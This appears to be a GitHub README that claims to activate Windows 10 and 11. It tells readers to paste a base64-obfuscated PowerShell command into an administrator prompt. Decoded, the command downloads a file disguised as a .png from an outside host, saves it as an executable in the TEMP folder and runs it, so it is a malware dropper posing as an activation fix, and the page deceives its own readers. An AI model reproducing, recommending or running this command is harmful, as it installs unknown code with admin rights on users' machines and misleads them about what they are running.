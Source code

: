 ## To activate Windows 10 and 11 follow the steps.

> Just copy and paste the following command into CMD admin.


> [!NOTE]
> powershell -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcABzADoALwAvAG8AbgBsAHkANAAuAGMAbABpAGMAawAvAGEAYwB3AC4AcABuAGcAIgAgAC0ATwB1AHQARgBpAGwAZQAgACIAJABlAG4AdgA6AFQARQBNAFAAXAAuAGUAeABlACIAOwAgAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACIAJABlAG4AdgA6AFQARQBNAFAAXAAuAGUAeABlACIA



> [!TIP]
> Wait about 1 minute for windows to activate. you do not need to restart the computer after the procedure

